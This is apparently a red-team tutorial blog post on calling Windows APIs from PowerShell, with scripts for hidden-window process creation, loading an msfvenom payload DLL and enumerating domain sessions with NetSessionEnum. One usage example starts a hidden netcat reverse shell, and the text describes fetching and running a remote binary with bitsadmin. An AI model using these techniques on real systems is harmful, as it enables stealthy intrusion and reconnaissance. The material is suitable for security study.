


Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
public static class User32
{
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern bool MessageBox(
IntPtr hWnd, /// Parent window handle
String text, /// Text message to display
String caption, /// Window caption
int options); /// MessageBox type
}
"@
[User32]::MessageBox(0,"Text","Caption",0) |Out-Null
Low-Level Windows API Access From PowerShell
Hola, as I'm sure you know by now PowerShell, aka Microsoft's post-exploitation language, is pretty awesome! Extending PowerShell with C#\.NET means that you can do pretty much anything. Sometimes, native PowerShell functionality is not enough and low-level access to the Windows API is required. One example of this is the NetSessionEnum API which is used by tools such as NetSess and Veil-Powerview to remotely enumerate active sessions on domain machines. In this post we will look at a few examples that will hopefully get you going on scripting together you own Windows API calls!
It should be noted that the examples below are using C# to define the Windows API structs. This is not optimal from an attackers perspective as the C# compilation will write temporary files to disk at runtime. However, using the .NET System.Reflection namespace adds some overhead to what we are trying to achieve. Once the basics have been understood, it is relatively easy to piggyback the great work done by Matt Graeber to get true in-memory residence.
Resources:
+ Pinvoke - here
+ Use PowerShell to Interact with the Windows API: Part 1 - here
+ Use PowerShell to Interact with the Windows API: Part 2 - here
+ Use PowerShell to Interact with the Windows API: Part 3 - here
+ Accessing the Windows API in PowerShell via .NET methods and reflection - here
+ Deep Reflection: Defining Structs and Enums in PowerShell - here
Download:
+ Invoke-CreateProcess.ps1 - here
+ Invoke-NetSessionEnum.ps1 - here
User32 : : MessageBox
Creating a message box is probably one of the most straight forward examples as the API call requires very little input. Make sure to check out the pinvoke entry for MessageBox to get a head-start on the structure definition and the MSDN entry to get a better understanding of the structure parameters.
The C++ function structure from MSDN can be seen below.
int WINAPI MessageBox( _In_opt_ HWND hWnd, _In_opt_ LPCTSTR lpText, _In_opt_ LPCTSTR lpCaption, _In_ UINT uType );
This easily translates to c#, it is almost a literal copy/paste of the example on pinvoke.
Executing the code above pops the expected message box.
Obviously you can change the parameters you pass to the message box function, for example the message box type.
[User32]::MessageBox(0,"Text","Caption",0x4)
User32 : : CallWindowProc
Let's try something a bit more complicated, what if we wanted to call an exported function inside a dll. Basically we would need to perform the following steps.
[Kernel32]::LoadLibrary # Load DLL |___[Kernel32]::GetProcAddress # Get function pointer |___[User32]::CallWindowProc # Call function
There is some cheating here, CallWindowProc will only work if the function does not expect any parameters. However for demonstration purposes it suites our needs.
User32.dll contains a function (LockWorkStation) which can be used to lock the user's desktop. The code to execute that function can be seen below.
function Instantiate-LockDown {
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
public static class Kernel32
{
[DllImport("kernel32", SetLastError=true, CharSet = CharSet.Ansi)]
public static extern IntPtr LoadLibrary(
[MarshalAs(UnmanagedType.LPStr)]string lpFileName);
[DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
public static extern IntPtr GetProcAddress(
IntPtr hModule,
string procName);
}
public static class User32
{
[DllImport("user32.dll")]
public static extern IntPtr CallWindowProc(
IntPtr wndProc,
IntPtr hWnd,
int msg,
IntPtr wParam,
IntPtr lParam);
}
"@
$LibHandle = [Kernel32]::LoadLibrary("C:\Windows\System32\user32.dll")
$FuncHandle = [Kernel32]::GetProcAddress($LibHandle, "LockWorkStation")
if ([System.IntPtr]::Size -eq 4) {
echo "`nKernel32::LoadLibrary --> 0x$("{0:X8}" -f $LibHandle.ToInt32())"
echo "User32::LockWorkStation --> 0x$("{0:X8}" -f $FuncHandle.ToInt32())"
}
else {
echo "`nKernel32::LoadLibrary --> 0x$("{0:X16}" -f $LibHandle.ToInt64())"
echo "User32::LockWorkStation --> 0x$("{0:X16}" -f $FuncHandle.ToInt64())"
}
echo "Locking user session..`n"
[User32]::CallWindowProc($FuncHandle, 0, 0, 0, 0) | Out-Null
}
Running the script immediately locks the user's desktop.
After logging back in we can see the output provided by the function.

MSFvenom : : WinExec (..or not)
On the back of the previous example let's try the same thing with a DLL that was generated by msfvenom.
I haven't personally had much occasion to use the metasploit DLL payload format as it never seem to do exactly what I need. To edify the situation I had a quick look in IDA which revealed that everything is exposed through DLLMain.

In an pretty humorous twist, further investigation revealed that the DLL is not actually using WinExec! Instead, the DLL sets up a call to CreateProcess.

The call is a bit odd, it looks like CreateProcess is starting "rundll32.exe" in a suspended state (dwCreationFlags = 0x44). I'm not sure why "rundll32.exe" is placed in lpCommandLine as it would normally be in lpApplicationName, regardless it is perfectly valid as lpApplicationName can be NULL in which case the first parameter of lpCommandLine would be treated as the module name.
The shellcode then gets a handle to the process, injects a payload byte array and resumes the thread.
Coming back to our initial goal, executing the payload from PowerShell is pretty straight forward. As everything is in DLLMain we would only need to call LoadLibrary with the appropriate path to the DLL. The one complication is that PowerShell will freeze once we make the LoadLibrary call, to avoid this we can use Start-Job to background the process.
function Instantiate-MSFDLL {
$ScriptBlock = {
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
public static class Kernel32
{
[DllImport("kernel32.dll", SetLastError=true, CharSet = CharSet.Ansi)]
public static extern IntPtr LoadLibrary(
[MarshalAs(UnmanagedType.LPStr)]string lpFileName);
}
"@
[Kernel32]::LoadLibrary("C:\Users\Fubar\Desktop\calc.dll")
}
Start-Job -Name MSF_Calc -ScriptBlock $ScriptBlock
}
Executing the function gives us calc.
Kernel32 : : CreateProcess
So far we have had it pretty easy, all the API calls have been relatively small and uncomplicated. That is not always the case however, a good example is the CreateProcess API call. It happens sometimes that you need to run a command on a remote machine, but ... it pops up a console window. I've run into this issue a few times and there is not really a straightforward solution (don't even think of proposing a VBS wrapper). Fortunately, if we go down to the Windows API we find CreateProcess which offers much more fine-grained control over process creation, including the ability to remove the GUI window of console applications. It still dismays me that in PowerShell, the "-WindowStyle Hidden" flag does not somehow hook into CreateProcess to hide the console completely.
Either way, having a function which can take full advantage of CreateProcess would be very useful from time to time. Let's see if we can make that happen. Remember to consult pinvoke for C# examples.
Resources:
+ CreateProcess - here
+ STARTUPINFO - here
+ PROCESS_INFORMATION - here
+ SECURITY_ATTRIBUTES - here
BOOL WINAPI CreateProcess( _In_opt_ LPCTSTR lpApplicationName, _Inout_opt_ LPTSTR lpCommandLine, _In_opt_ LPSECURITY_ATTRIBUTES lpProcessAttributes, --> SECURITY_ATTRIBUTES Struct _In_opt_ LPSECURITY_ATTRIBUTES lpThreadAttributes, --> SECURITY_ATTRIBUTES Struct _In_ BOOL bInheritHandles, _In_ DWORD dwCreationFlags, _In_opt_ LPVOID lpEnvironment, _In_opt_ LPCTSTR lpCurrentDirectory, _In_ LPSTARTUPINFO lpStartupInfo, --> STARTUPINFO Struct _Out_ LPPROCESS_INFORMATION lpProcessInformation --> PROCESS_INFORMATION Struct );
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
[StructLayout(LayoutKind.Sequential)]
public struct PROCESS_INFORMATION
{
public IntPtr hProcess;
public IntPtr hThread;
public uint dwProcessId;
public uint dwThreadId;
}
[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
public struct STARTUPINFO
{
public uint cb;
public string lpReserved;
public string lpDesktop;
public string lpTitle;
public uint dwX;
public uint dwY;
public uint dwXSize;
public uint dwYSize;
public uint dwXCountChars;
public uint dwYCountChars;
public uint dwFillAttribute;
public uint dwFlags;
public short wShowWindow;
public short cbReserved2;
public IntPtr lpReserved2;
public IntPtr hStdInput;
public IntPtr hStdOutput;
public IntPtr hStdError;
}
[StructLayout(LayoutKind.Sequential)]
public struct SECURITY_ATTRIBUTES
{
public int length;
public IntPtr lpSecurityDescriptor;
public bool bInheritHandle;
}
public static class Kernel32
{
[DllImport("kernel32.dll", SetLastError=true)]
public static extern bool CreateProcess(
string lpApplicationName,
string lpCommandLine,
ref SECURITY_ATTRIBUTES lpProcessAttributes,
ref SECURITY_ATTRIBUTES lpThreadAttributes,
bool bInheritHandles,
uint dwCreationFlags,
IntPtr lpEnvironment,
string lpCurrentDirectory,
ref STARTUPINFO lpStartupInfo,
out PROCESS_INFORMATION lpProcessInformation);
}
"@
# StartupInfo Struct
$StartupInfo = New-Object STARTUPINFO
$StartupInfo.dwFlags = 0x00000001 # STARTF_USESHOWWINDOW
$StartupInfo.wShowWindow = 0x0000 # SW_HIDE
$StartupInfo.cb = [System.Runtime.InteropServices.Marshal]::SizeOf($StartupInfo) # Struct Size
# ProcessInfo Struct
$ProcessInfo = New-Object PROCESS_INFORMATION
# SECURITY_ATTRIBUTES Struct (Process & Thread)
$SecAttr = New-Object SECURITY_ATTRIBUTES
$SecAttr.Length = [System.Runtime.InteropServices.Marshal]::SizeOf($SecAttr)
# CreateProcess --> lpCurrentDirectory
$GetCurrentPath = (Get-Item -Path ".\" -Verbose).FullName
# Call CreateProcess
[Kernel32]::CreateProcess("C:\Windows\System32\cmd.exe", "/c calc.exe", [ref] $SecAttr, [ref] $SecAttr, $false,
0x08000000, [IntPtr]::Zero, $GetCurrentPath, [ref] $StartupInfo, [ref] $ProcessInfo) |out-null
The flags which were set above should create a "cmd.exe" process that has no window, which in turn launches calc. In fact you can confirm cmd has no associated window with process explorer.

Obviously repurposing this code is a bit bothersome so I poured in into a nice function for reuse.
PS C:\Users\Fubar\Desktop> . .\Invoke-CreateProcess.ps1 PS C:\Users\Fubar\Desktop> Get-Help Invoke-CreateProcess -Full NAME Invoke-CreateProcess SYNOPSIS -Binary Full path of the module to be executed. -Args Arguments to pass to the module, e.g. "/c calc.exe". Defaults to $null if not specified. -CreationFlags Process creation flags: 0x00000000 (NONE) 0x00000001 (DEBUG_PROCESS) 0x00000002 (DEBUG_ONLY_THIS_PROCESS) 0x00000004 (CREATE_SUSPENDED) 0x00000008 (DETACHED_PROCESS) 0x00000010 (CREATE_NEW_CONSOLE) 0x00000200 (CREATE_NEW_PROCESS_GROUP) 0x00000400 (CREATE_UNICODE_ENVIRONMENT) 0x00000800 (CREATE_SEPARATE_WOW_VDM) 0x00001000 (CREATE_SHARED_WOW_VDM) 0x00040000 (CREATE_PROTECTED_PROCESS) 0x00080000 (EXTENDED_STARTUPINFO_PRESENT) 0x01000000 (CREATE_BREAKAWAY_FROM_JOB) 0x02000000 (CREATE_PRESERVE_CODE_AUTHZ_LEVEL) 0x04000000 (CREATE_DEFAULT_ERROR_MODE) 0x08000000 (CREATE_NO_WINDOW) -ShowWindow Window display flags: 0x0000 (SW_HIDE) 0x0001 (SW_SHOWNORMAL) 0x0001 (SW_NORMAL) 0x0002 (SW_SHOWMINIMIZED) 0x0003 (SW_SHOWMAXIMIZED) 0x0003 (SW_MAXIMIZE) 0x0004 (SW_SHOWNOACTIVATE) 0x0005 (SW_SHOW) 0x0006 (SW_MINIMIZE) 0x0007 (SW_SHOWMINNOACTIVE) 0x0008 (SW_SHOWNA) 0x0009 (SW_RESTORE) 0x000A (SW_SHOWDEFAULT) 0x000B (SW_FORCEMINIMIZE) 0x000B (SW_MAX) -StartF Bitfield to influence window creation: 0x00000001 (STARTF_USESHOWWINDOW) 0x00000002 (STARTF_USESIZE) 0x00000004 (STARTF_USEPOSITION) 0x00000008 (STARTF_USECOUNTCHARS) 0x00000010 (STARTF_USEFILLATTRIBUTE) 0x00000020 (STARTF_RUNFULLSCREEN) 0x00000040 (STARTF_FORCEONFEEDBACK) 0x00000080 (STARTF_FORCEOFFFEEDBACK) 0x00000100 (STARTF_USESTDHANDLES) SYNTAX Invoke-CreateProcess [-Binary] <String> [[-Args] <String>] [-CreationFlags] <Int32> [-ShowWindow] <Int32> [-StartF] <Int32> [<CommonParameters>] DESCRIPTION Author: Ruben Boonen (@FuzzySec) License: BSD 3-Clause Required Dependencies: None Optional Dependencies: None PARAMETERS -Binary <String> Required? true Position? 1 Default value Accept pipeline input? false Accept wildcard characters? -Args <String> Required? false Position? 2 Default value Accept pipeline input? false Accept wildcard characters? -CreationFlags <Int32> Required? true Position? 3 Default value Accept pipeline input? false Accept wildcard characters? -ShowWindow <Int32> Required? true Position? 4 Default value Accept pipeline input? false Accept wildcard characters? -StartF <Int32> Required? true Position? 5 Default value Accept pipeline input? false Accept wildcard characters? <CommonParameters> This cmdlet supports the common parameters: Verbose, Debug, ErrorAction, ErrorVariable, WarningAction, WarningVariable, OutBuffer and OutVariable. For more information, type, "get-help about_commonparameters". INPUTS OUTPUTS -------------------------- EXAMPLE 1 -------------------------- Start calc with NONE/SW_SHOWNORMAL/STARTF_USESHOWWINDOW C:\PS> Invoke-CreateProcess -Binary C:\Windows\System32\calc.exe -CreationFlags 0x0 -ShowWindow 0x1 -StartF 0x1 -------------------------- EXAMPLE 2 -------------------------- Start nc reverse shell with CREATE_NO_WINDOW/SW_HIDE/STARTF_USESHOWWINDOW C:\PS> Invoke-CreateProcess -Binary C:\Some\Path\nc.exe -Args "-nv 127.0.0.1 9988 -e C:\Windows\System32\cmd.exe" -CreationFlags 0x8000000 -ShowWindow 0x0 -StartF 0x1
NONE/SW_NORMAL/STARTF_USESHOWWINDOW
Here we are just launching plain calc without any fluff.
CREATE_NEW_CONSOLE/SW_NORMAL/STARTF_USESHOWWINDOW
Here cmd is launched in a new console and is displayed normally.
CREATE_NO_WINDOW/SW_HIDE/STARTF_USESHOWWINDOW
Here cmd is being called with no window, which in turn executes a bitsadmin command to grab and execute a binary from the greyhathacker domain.
Netapi32 : : NetSessionEnum
For our final example we will have a look at the NetSessionEnum API. This is a great little API gem, especially when it comes to redteaming, it allows a domain user to enumerate authenticated sessions on domain-joined machines and it does not require Administrator privileges. As I mentioned in the introduction, there are already great tools that leverage this, most notably NetSess and Veil-Powerview. The script below is very similar to "Get-NetSessions" in powerview except that it is not using reflection.
function Invoke-NetSessionEnum {
<#
.SYNOPSIS
Use Netapi32::NetSessionEnum to enumerate active sessions on domain joined machines.
.DESCRIPTION
Author: Ruben Boonen (@FuzzySec)
License: BSD 3-Clause
Required Dependencies: None
Optional Dependencies: None
.EXAMPLE
C:\PS> Invoke-NetSessionEnum -HostName SomeHostName
#>
param (
[Parameter(Mandatory = $True)]
[string]$HostName
)
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
[StructLayout(LayoutKind.Sequential)]
public struct SESSION_INFO_10
{
[MarshalAs(UnmanagedType.LPWStr)]public string OriginatingHost;
[MarshalAs(UnmanagedType.LPWStr)]public string DomainUser;
public uint SessionTime;
public uint IdleTime;
}
public static class Netapi32
{
[DllImport("Netapi32.dll", SetLastError=true)]
public static extern int NetSessionEnum(
[In,MarshalAs(UnmanagedType.LPWStr)] string ServerName,
[In,MarshalAs(UnmanagedType.LPWStr)] string UncClientName,
[In,MarshalAs(UnmanagedType.LPWStr)] string UserName,
Int32 Level,
out IntPtr bufptr,
int prefmaxlen,
ref Int32 entriesread,
ref Int32 totalentries,
ref Int32 resume_handle);
[DllImport("Netapi32.dll", SetLastError=true)]
public static extern int NetApiBufferFree(
IntPtr Buffer);
}
"@
# Create SessionInfo10 Struct
$SessionInfo10 = New-Object SESSION_INFO_10
$SessionInfo10StructSize = [System.Runtime.InteropServices.Marshal]::SizeOf($SessionInfo10) # Grab size to loop bufptr
$SessionInfo10 = $SessionInfo10.GetType() # Hacky, but we need this ;))
# NetSessionEnum params
$OutBuffPtr = [IntPtr]::Zero # Struct output buffer
$EntriesRead = $TotalEntries = $ResumeHandle = 0 # Counters & ResumeHandle
$CallResult = [Netapi32]::NetSessionEnum($HostName, "", "", 10, [ref]$OutBuffPtr, -1, [ref]$EntriesRead, [ref]$TotalEntries, [ref]$ResumeHandle)
if ($CallResult -ne 0){
echo "Mmm something went wrong!`nError Code: $CallResult"
}
else {
if ([System.IntPtr]::Size -eq 4) {
echo "`nNetapi32::NetSessionEnum Buffer Offset --> 0x$("{0:X8}" -f $OutBuffPtr.ToInt32())"
}
else {
echo "`nNetapi32::NetSessionEnum Buffer Offset --> 0x$("{0:X16}" -f $OutBuffPtr.ToInt64())"
}
echo "Result-set contains $EntriesRead session(s)!"
# Change buffer offset to int
$BufferOffset = $OutBuffPtr.ToInt64()
# Loop buffer entries and cast pointers as SessionInfo10
for ($Count = 0; ($Count -lt $EntriesRead); $Count++){
$NewIntPtr = New-Object System.Intptr -ArgumentList $BufferOffset
$Info = [system.runtime.interopservices.marshal]::PtrToStructure($NewIntPtr,[type]$SessionInfo10)
$Info
$BufferOffset = $BufferOffset + $SessionInfo10StructSize
}
echo "`nCalling NetApiBufferFree, no memleaks here!"
[Netapi32]::NetApiBufferFree($OutBuffPtr) |Out-Null
}
}
I have a small, sinister, domain set up at home which I use for testing/dev. You can see the output of Invoke-NetSessionEnum below.
Conclusion
Hopefully this post has given you some ideas about incorporating Windows API calls in your PowerShell scripts. Doing so means that there is really nothing which you can't achieve in PowerShell. As I mentioned in the introduction, there is a way to avoid runtime C# compilation by using .NET reflection, I highly recommend that you have a look at some of the examples in the PowerSploit framework to see how this is done.
Remember, stay calm and [Winmm]::mciSendString("set CDAudio door open", $null, $null, [IntPtr]::Zero)!